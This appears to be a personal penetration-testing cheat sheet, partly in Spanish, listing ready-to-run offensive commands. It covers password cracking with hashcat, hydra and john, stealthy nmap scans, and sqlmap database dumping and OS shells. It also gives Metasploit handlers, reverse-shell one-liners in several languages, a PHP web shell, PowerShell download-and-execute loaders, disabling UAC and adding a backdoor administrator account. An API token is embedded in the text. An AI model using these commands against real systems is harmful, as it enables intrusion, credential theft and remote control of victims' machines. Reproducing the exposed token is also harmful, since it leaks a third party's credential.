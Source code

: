 ## Cracking
hashcat -m 0 -a 0 -o cracked.txt target_hashes.txt /usr/share/wordlists/rockyou.txt
  -m 0 designates the type of hash we are cracking (MD5);
  -a 0 designates a dictionary attack;
  -o cracked.txt is the output file for the cracked passwords;
  -target_hashes.txt is our input file of hashes;
  -/usr/share/wordlists/rockyou.txt = Path to the wordlist
 
 m - 0:MD5
     100:SHA1
     1400:SHA256
     1700:SHA512
     900:MD4
     3200:BCRYPT
hashcat -m 1000 -a 3 -w 3 -O 6d3448b44472bc42b065e6fcd94d7922 $rockyou 

hydra -L user.txt -P /usr/share/wordlists/rockyou.txt 192.168.123.101 ftp
hydra -L /usr/share/wordlists.rockyou.txt -P /usr/share/wordlists/rockyou.txt 192.168.123.101 -t 4 ssh
hydra -L [user] -P [password] [IP] http-post-form "/:usernam=^USER^ & password=^PASS^:F=incorrect" -V

john --wordlist=/usr/share/wordlists/rockyou.txt crack.txt
zip2john file.zip > crack.txt
john crack.txt --wordlist=rockyou.txt --format=Raw-SHA256

## Scaning

nmap -sV -sC -oA nmap.txt 10.10.10.x
nmap -sC -sV -v -oN nmap.txt 10.10.10.x
nmap -sS -P0 -A -v 10.10.10.x
masscan -e tun0 -pi-65535 --rate=1000
nmap -sU -sV -A -T4 -v -oN udp.txt 10.10.10.x
nmap -v -sS -f -mtu 32 --send-eth --data-length 50 --source-port 8965 -T5 192.168.0.22
while IFS= read -r line; do nmap -A -p80,443 $line -oG $line.txt -v -n -T4 --open; done < hosts.txt

for ip in $(cat smb_ips.txt); do nbtscan $ip; done

minimal port scanning

#!/bin/bash
host=10.5.5.11
for port in {1..65535}; do
timeout .1 bash -c "echo >/dev/tcp/$host/$port" &&
echo "port $port is open"
done
echo "Done"

For linea por linea

for i in *; do echo $i; donecd 

## SQLi
URL = http://testphp.vulnweb.com/artists.php?artist=1

Find DBs = sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs --batch

Result is DB name acuart

Find Tables = sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --table --batch

Result is table name users

Find columns = sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --columns --batch

Dump table = sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --dump --batch

Dump the DB = sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --dump-all --batch

sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --cookie='JSESSIONID=09h76qoWC559GH1K7DSQHx' --random-agent --level=1 --risk=3 --dbs --batch

OS Shell = sqlmap -u 'url' --dbms=mysql --os-shell
SQL Shell = sqlmap -u 'url' --dbms=mysql --sql-shell

## Wireshark

To find DOS (SYN and ACK) : tcp.flags.syn == 1  , tcp.flags.syn == 1 and tcp.flags.ack == 0
To find passwords : http.request.method == POST

## Buffer Overflow

!mona find -s '\xff\xe4' -m ASX2MP3Converter.exe

!mona seh -m "$module"

BadChars

!mona config -set workingfolder c:\logs\%p

!mona pattern_create 200

!mona pattern_offset XXXXXX

!mona bytearray

!mona compare -f C:\logs\program\bytearray.bin -a 00149DA8

00149DA8 > Direccion donde empieza badchars

## Metasploit

msfconsole -q -x "use exploit/multi/handler;\
set PAYLOAD windows/shell/reverse_tcp;\
set LHOST 192.168.19.24;\
set LPORT 443;\
run"

msfconsole -q -x "use exploit/multi/handler;\
set PAYLOAD linux/x86/shell_reverse_tcp;\
set LHOST 10.11.15.17;\
set LPORT 443;\
run"

## Reverse Shell

bash -i >& /dev/tcp/192.168.119.141/443 0>&1

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|
nc 10.11.0.4 1234 >/tmp/f" >> user_backups.sh

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

nc -e /bin/sh 10.0.0.1 1234
---
WebShell

<?php
system($_REQUEST['cmd'])
?>

php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=screen-256color
[Ctrl Z]
stty raw -echo
fg
reset
xterm

stty -a para ver número de filas y columnas 
seteamos el mismo numero en la máquina víctima

Error opening terminal: unknown.
stty rows 48 columns 165


#Funtions

autogobuster () {
echo "\n [*] Ejecutando gobuster dir -u $1 -w $wordlist -k -t 100 $2 \n"
gobuster -u $1 -w $wordlist -k -t 50 -o out_$(echo $1 | cut -f 2 -d '.')_web.txt $2 
}

autowpscan () {
wpscan --disable-tls-checks  -e u,ap,at,cb,dbe --url $1 --api-token hshBqrQ1A5cmgjT4e3jSljEnn5wMeDCcagLj6yeCO3M -o $(echo $1 | cut -f 3 -d "/").txt
}
autodalfox () {
nohup dalfox -b https://vsh00t.xss.ht file /home/jorge/Cyber-pix/output/$1 --custom-payload /opt/payloads/xss.txt --waf-evasion -w 1000 -o /home/jorge/Cyber-pix/xss-result/$1 &
}

## windows y AD

Deshabilitar UAC

cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f

Pasar Archivos

impacket-smbserver nombre $(pwd)

copy archivo \\10.10.14.28\nombre\archivo

Copiar archivo desde web

start /b powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.28:8000/PS.ps1')

powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/powercat.ps1');powercat -c 192.168.1.109 -p 1234 -e cmd"

certutil.exe -f -urlcache -split http://10.10.14.28/41020.exe 41020.exe

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.28/41020.exe', 'C:\Temp\41020.exe')"

PowerShell.exe -ExecutionPolicy UnRestricted -File file.ps1

powershell -c "Invoke-WebRequest -Uri 'http://10.8.50.72:8000/winPEAS.bat' -OutFile 'C:\Users\bill\Desktop\winpeas.bat'"

Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted

net user vsh00t password123 /add
net localgroup Administrators vsh00t /add

Encode Powershell

[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("IEX ((new-object net.webclient).downloadstring('http://10.8.0."))

